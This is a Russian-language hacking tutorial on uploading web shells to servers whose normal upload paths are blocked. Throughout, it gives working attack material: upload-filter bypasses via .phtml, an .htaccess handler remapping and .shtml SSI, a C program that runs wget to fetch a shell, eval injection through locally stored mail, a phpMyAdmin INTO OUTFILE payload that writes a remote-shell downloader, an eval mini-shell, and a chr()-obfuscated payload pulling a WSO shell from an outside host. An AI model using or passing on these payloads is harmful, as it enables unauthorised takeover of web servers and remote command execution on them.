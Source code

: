 # Не Стандартное Внедрение Шелла 
Эту статью вам нужно читать в двух случаях: 
1. Для общего развития 
2. Если у вас не получается штатными методами залить шелл.

## Обход фильтрации 

Допустим, формат .php не заливается, также .php2/.php3/.php4/.php5/.php.jpg/.php.abc.
Варианты решения: 
1. Phtml 
Попробуйте залить .phtml - это также расширение семейства PHP. 
2. htaccess 
Создаём файлик .htaccess, и вписываем в него следующее: 
AddType application/x-httpd-php .jpg 
AddHandler application/x-httpd-php .jpg 
Сохраним.. там, где .jpg можете указать любой понравившийся вам формат, хоть .hacker ( :D ). 
Теперь попробуем залить наш .htaccess и вслед за ним шелл, с расширением, указанным в .htaccess'e 
Примечание: .htaccess - файл дополнительной конфигурации веб-сервера Apache, а также подобных ему серверов. 
3. shtml 
Если методы выше не работают, то расскажу о очень интересном формате - ".shtml". 
SSI (Server Side Includes — включения на стороне сервера) — несложный язык для динамической «сборки» веб-страниц на сервере из отдельных составных частей и выдачи клиенту полученного HTML-документа. Реализован в веб-сервере Apache при помощи модуля mod_include. Включённая в настройках по умолчанию веб-сервера возможность позволяет подключать HTML-файлы, поэтому для использования инструкций файл должен оканчиваться расширением .shtml, .stm или .shtm 
Вся прелесть в том, что 95% администраторов либо вообще не знают что это такое, либо просто напросто забывают добавить этот формат в "чёрный список". А теперь советую поподробней прочитать, что это такое, залить такой файлик на сервер, и закачать шелл... 
Также бывает, что если мы создадим файл file.shtm?cmd=... то в большинстве случаев скрипт не хотел выполнять системные команды, которые содержат пробел. т.е. "id" он выполнял, "ls" - тоже, а "uname -a" - нет, потому что содержит пробел. Таким образом все фишки типа "wget http://shell.com/shell.php" обламывались. Но не отчаиваетесь - выход есть: 
Можно написать и скомпилировать програмку, которая выполняет системную команду скачивания шелла (через wget). скомпилировать, и залить её. Потом через SSI скрипт просто напросто выполнить её. 
Код примера программы: 
```C
#include <stdio.h> 
#include <stdlib.h> 

int main () 
{ 
system("wget [Путь_к_шеллу]"); 
return 0; 
} 
```
> Варианты shell.php.jpg тут не рассматриваются, т.к о них и так все знают. 

4. Tamper Data 
Ну, а этот вариант - это использовать плагин на подобии "Tamper Data" (Firefox). Можно перехватить запрос, и изменить расширение, но такой метод самый маловероятный. Обычно он спасает в тех случаях, если php не разрешает какой-нибудь JavaScript. 
5. баг Windows 
Пятый вариант - это отличный баг Windows, а именно, иногда сайт не разрешает закачивать PHP таким образом, что когда нажимаешь к примеру на кнопку "Обзор", то он показывает только файлы изображений, и т.п. Но не отчаивайтесь - просто нажмите на этот "Обзор" ( :D ) зайдите в директорию с шеллом, и наберите тут его имя: 
Картинка И нажмите "Открыть", шелл успешно откроется, и закачается ;) 
6. jpg 
Ну а этот метод не входит в "не стандартную" категорию, он заключается в том, что банальный создатель говорит, что разрешено дескать только .jpg и т.д, но на самом деле это не всегда так, достаточно залить PHP сценарий (шелл), и он будет отлично работать. Как вы поняли - никакой фильтрации нету полностью (ну или уж через чур кривая :D ) 
7. mail 
Например у нас есть какая-нить CMS-ка или даже просто самописный двиг, в котором где-то, куда-то иногда отправляются письма. Например, с активацией регистрации и так далее. Дело в том, что такие письма могут быть локально сохранены на nix-системах. Если рассматривать как пример форму активации аккаунта, то введем, например, как логин eval($_GET['c']); а как свое мыло впишем apache@localhost. Таким образом письмо будет отправлено на тот же демон хттпд и сохранено где-то в /var/mail с именем юзера хттпд. Думаю далее действия очевидны, имея, например, локальный инклуд мы можем прогрузить шелл инклудя письмецо с передачей кода загрузки шелла в параметре $_GET['c']. 

## Хитрости PhpMyAdmin 

Допустим, вы получили доступ к PhpMyAdmin, и вам даже посчастливилось, что File_Priv=Y и Обновление таблиц тоже = Y. Тогда нажимает SQL (Может называться и по другому, и она сверху ;) ). И вписываем следующее: 
```php
UPDATE `table_name` SET `column_name_1` = '<?php $url = "Путь_до_шелла";$content = file_get_contents($url);$h = fopen("shells.php","w");$text = "$content";fwrite($h,$text);fclose($h); ?>' WHERE `column_name_2` =[Значение] LIMIT 1 ; 
SELECT * FROM `table_name` WHERE `column_name_2` =[Значение] INTO OUTFILE '[Полный_путь_до_папки_с_правами_закачки_файла/shell.php]' ; 
```
Теперь переходим по адресу 
host.com/пут_до_той_папки_что_вы_указали/shells.php 
Пояснения: 
 - table_name - имя таблицы в БД. 
 - column_name_1 - эта колонка, которую мы будем "изменять". 
 - column_name_2 - это колонка, например id, показывает, какую именно запись в БД мы будем редактировать. Например, column_name_2=id, а table_name=users. 
Это значит, что мы будем изменять запись в таблице users, где id=n (любое число). 
Вы, вероятно обратили внимание, что весь php на одной строке и без пробелов, а это не случайность - это всё для вселюбимой PhpMyAdmin, если записать сюда код с переходами на другую строку, то он обязательно вставить "/" перед переходом, что соответственно вызовет ошибку в php скрипте. И ещё нельзя использовать ' ... 
Также можно вместо: 
```php
<?php $url = "Путь_до_шелла";$content = file_get_contents($url);$h = fopen("shells.php","w");$text = "$content";fwrite($h,$text);fclose($h); ?> 
```
Мы можем просто вписать: 
```php
<?php eval($_GET[cmd]); ?> 
```
Eval выполняет функции php, как вы видите, это мини шелл... используют так: 
host.com/пут_до_той_папки_что_вы_указали/shells.php?c..; 

## Мини-шелл 
Итак, опять же допустим, что вы закачали "мини шелл", но теперь бы вам надо залить нормальный, WSO к примеру. 
Пробуем: 
```php
http://host.ru/shell.php?cmd=$url = "Ссылка_на_шелл.txt";$content = file_get_contents($url);$h = fopen("shells.php","w");$text = "$content";fwrite($h,$text);fclose($h); 
```
Но тут очень часто бывает облом - либо нельзя, чтобы был пробел, либо нельзя, чтобы были кавычки. "Заброшу ка я сервер" - наверное подумали вы.. но нет, конечно, вы правы, чтобы задать тип переменной в php типа string, не мешало бы значение поместить в кавычки, а вот оказывается нет. Достаточно использовать функцию chr(); Эта функция "преобразовывает" ASCII в "обычный текст", таблицу таких символов можно взять тут - http://www.asciitable.com/ И соответственно, получаем код, к примеру (рабочий): 
```php
$url = chr(104).chr(116).chr(116).chr(112).chr(58).chr(47 ).chr(47).chr(108).chr(101).chr(103).chr(105).chr( 111).chr(110).chr(101).chr(114).chr(115).chr(56).c hr(56).chr(46).chr(110).chr(97).chr(114).chr(111). chr(100).chr(46).chr(114).chr(117).chr(47).chr(101 ).chr(114).chr(114).chr(111).chr(114).chr(46).chr( 116).chr(120).chr(116); 
Как видите, без кавычек, а тип будет String :p Так что теперь делаем код: 
$url = chr(104).chr(116).chr(116).chr(112).chr(58).chr(47).chr(47).chr(108).chr(101).chr(103).chr(105).chr(111).chr(110).chr(101).chr(114).chr(115).chr(56).chr(56).chr(46).chr(110).chr(97).chr(114).chr(111).chr(100).chr(46).chr(114).chr(117).chr(47).chr(101).chr(114).chr(114).chr(111).chr(114).chr(46).chr(116).chr(120).chr(116);$content = file_get_contents($url);$h = fopen(shells.chr(46).php,w);$text = $content;fwrite($h,$text);fclose($h); 
```
И вставляем его в "?cmd=" и получаем в том же каталоге что и мини-шелл, настоящий, хороший шелл, который будет по адресу shells.php.. 
Заметка: Скорее всего, вы заметили, что у меня написано "shells.chr(46).php", а я объясню, 46 - это точка в "Dec", а имя файла у нас без кавычек, и если бы мы написали shells.php то он бы сохранился как shellsphp, то есть без расширения, т.к точка - это тоже функция в PHP, но я земенил её на shells.chr(46).php и получаем на выходе "shells.php". Вот так, удачи Вам! 
Это всего-лишь малая часть всех чудных способов не стандартной заливки, я просто пытался направить вас на путь, что выход есть всегда.
